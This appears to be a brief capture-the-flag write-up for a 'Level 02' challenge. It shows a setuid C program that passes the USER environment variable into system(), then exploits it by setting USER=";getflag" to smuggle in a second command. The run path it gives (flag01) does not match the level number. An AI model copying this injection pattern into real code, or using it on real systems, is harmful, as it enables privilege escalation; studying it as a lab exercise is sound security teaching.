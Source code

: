 # Level 02

From the site we can get the code for this level:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

As the level01 we need to modify a variable to pass this level, in this case is
USER, we can modify it to call get falg and then quit.

To modify the USER variable, so the buffer variable will be somthing like
 "/bin/echo;getflag is cool":

```bash
export USER=";getflag"
```

Than we can execute the code of this level and when it will call the getflag for
us.

```bash
/home/flag01/flag01
```
